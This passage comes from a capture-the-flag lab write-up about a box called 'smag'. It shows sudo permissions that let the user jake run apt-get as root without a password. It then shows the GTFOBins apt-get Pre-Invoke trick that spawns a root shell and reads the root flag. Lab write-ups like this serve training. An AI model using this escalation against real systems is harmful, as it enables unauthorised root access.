 - Nothing interesting here!

### Check sudo permissions

```bash
jake@smag:/$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

- Jake can run `apt-get` as as root without password!


### Root Access

- Check `gtfobins` for privilege escalation using `apt-get` binary:

```bash
jake@smag:/$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# whoami
root
# cd /root      
# ls
root.txt
# cat root.txt
REDACTED
```

---
